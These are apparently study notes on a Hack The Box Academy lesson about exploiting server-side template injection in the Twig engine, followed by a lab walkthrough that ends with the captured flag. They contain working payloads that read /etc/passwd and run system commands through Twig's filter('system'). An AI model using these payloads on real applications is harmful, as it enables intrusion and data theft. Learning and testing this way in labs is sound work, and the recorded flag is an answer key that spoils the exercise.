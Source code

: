 ﻿---
sticker: lucide//book-template
---
In this section, we will explore another example of SSTI exploitation. In the previous section, we discussed exploiting SSTI in the`Jinja` template engine. This section will discuss exploiting SSTI in the`Twig` template engine. Like in the previous section, we will only focus on the SSTI exploitation and thus assume that the SSTI confirmation and template engine identification have already been done in a previous step. Twig is a template engine for the PHP programming language.

---

## Information Disclosure

In Twig, we can use the`_self` keyword to obtain a little information about the current template:


```twig
{{ _self }}
```

 ![](https://academy.hackthebox.com/storage/modules/145/ssti/ssti_exploitation_2_1.png)

However, as we can see, the amount of information is limited compared to`Jinja`.

---

## Local File Inclusion (LFI)

Reading local files (without using the same way as we will use for RCE) is not possible using internal functions directly provided by Twig. However, the PHP web framework [Symfony](https://symfony.com/) defines additional Twig filters. One of these filters is [file_excerpt](https://symfony.com/doc/current/reference/twig_reference.html#file-excerpt) and can be used to read local files:

```twig
{{ "/etc/passwd"|file_excerpt(1,-1) }}
```

 ![](https://academy.hackthebox.com/storage/modules/145/ssti/ssti_exploitation_1_3.png)

---

## Remote Code Execution (RCE)

To achieve remote code execution, we can use a PHP built-in function such as`system`. We can pass an argument to this function by using Twig's`filter` function, resulting in any of the following SSTI payloads:


```twig
{{ ['id'] | filter('system') }}
```

 ![](https://academy.hackthebox.com/storage/modules/145/ssti/ssti_exploitation_2_3.png)

---

## Further Remarks

This module explored exploiting SSTI in the`Jinja` and`Twig` template engines. As we have seen, the syntax of each template engine is slightly different. However, the general idea behind SSTI exploitation remains the same. Therefore, exploiting an SSTI in a template engine the attacker is unfamiliar with is often as simple as becoming familiar with the syntax and supported features of that particular template engine. An attacker can achieve this by reading the template engine's documentation. However, there are also SSTI cheat sheets that bundle payloads for popular template engines, such as the [PayloadsAllTheThings SSTI CheatSheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md).

# Question
---
![Pasted image 20250212132712.png](../../../../IMAGES/Pasted%20image%2020250212132712.png)

We can use the following payload to test if the page is vulnerable:

```twig
{{ _self }}
```

![Pasted image 20250212141640.png](../../../../IMAGES/Pasted%20image%2020250212141640.png)

Nice, let's get RCE:

```twig
{{ ['id'] | filter('system') }}
```

![Pasted image 20250212141706.png](../../../../IMAGES/Pasted%20image%2020250212141706.png)

Ok, let's read the `/` directory:

```twig
{{ ['ls /'] | filter('system') }}
```

![Pasted image 20250212141749.png](../../../../IMAGES/Pasted%20image%2020250212141749.png)

We found the flag:

```twig
{{ ['cat /flag.txt'] | filter('system') }}
```

![Pasted image 20250212141817.png](../../../../IMAGES/Pasted%20image%2020250212141817.png)

Flag is: 

```
HTB{5034a6692604de344434ae83f1cdbec6}
```
